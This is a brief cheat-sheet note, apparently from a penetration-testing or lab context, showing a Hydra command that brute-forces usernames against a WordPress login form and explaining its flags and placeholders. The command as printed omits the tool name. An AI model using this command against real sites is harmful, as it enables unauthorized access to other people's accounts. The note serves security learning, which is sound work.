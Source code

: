 # Hydra


## Bruteforce HTTP Form

To bruteforce a Login catch the request with burpsuite and for a hydra command.


```console
root@machine:~$ -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

Options:
    -vV     verbose mode
    -L      use wordlist for Username
    -p      use given password
    -http-post-form     request type

Payload:
    '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

^USER^ & ^PASS^ are used as placeholder. "F=Invalid username" is the string for the error message.
